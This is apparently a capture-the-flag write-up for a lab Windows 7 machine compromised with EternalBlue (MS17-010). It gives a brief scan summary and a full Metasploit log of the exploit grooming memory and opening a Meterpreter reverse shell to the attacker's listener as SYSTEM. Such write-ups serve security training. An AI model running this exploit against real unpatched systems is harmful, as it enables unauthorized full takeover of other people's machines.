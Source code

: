 # Summary
- User: EternalBlue exploit allows you to achieve reverse shell as `nt authority\system`
- Root: see above

# Details
### User
- scan reveals ports 135, 139, 445
- due to name of box and open ports, box is likely vulnerable to EternalBlue (CVE-2017-0144 / MS17-010)
- EternalBlue exploit (through Metasploit or Python script) allows direct escalation to `nt authority\system`
- https://research.checkpoint.com/2017/eternalblue-everything-know/
- https://www.youtube.com/watch?v=HsievGJQG0w

### Root
- see above

```
[*] Started reverse TCP handler on 10.10.14.114:9999 
[*] 10.129.147.245:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.129.147.245:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.147.245:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.147.245:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.147.245:445 - The target is vulnerable.
[*] 10.129.147.245:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.147.245:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.147.245:445    - Scanned 1 of 1 hosts (100% complete)
[*] 10.129.147.245:445 - Connecting to target for exploitation.
[+] 10.129.147.245:445 - Connection established for exploitation.
[+] 10.129.147.245:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.147.245:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.147.245:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.147.245:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.147.245:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.147.245:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.147.245:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.147.245:445 - Sending all but last fragment of exploit packet
[*] 10.129.147.245:445 - Starting non-paged pool grooming
[+] 10.129.147.245:445 - Sending SMBv2 buffers
[+] 10.129.147.245:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.147.245:445 - Sending final SMBv2 buffers.
[*] 10.129.147.245:445 - Sending last fragment of exploit packet!
[*] 10.129.147.245:445 - Receiving response from exploit packet
[+] 10.129.147.245:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.147.245:445 - Sending egg to corrupted connection.
[*] 10.129.147.245:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.129.147.245
[*] Meterpreter session 1 opened (10.10.14.114:9999 -> 10.129.147.245:49158) at 2021-05-17 14:04:58 -0400
[+] 10.129.147.245:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.147.245:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.147.245:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
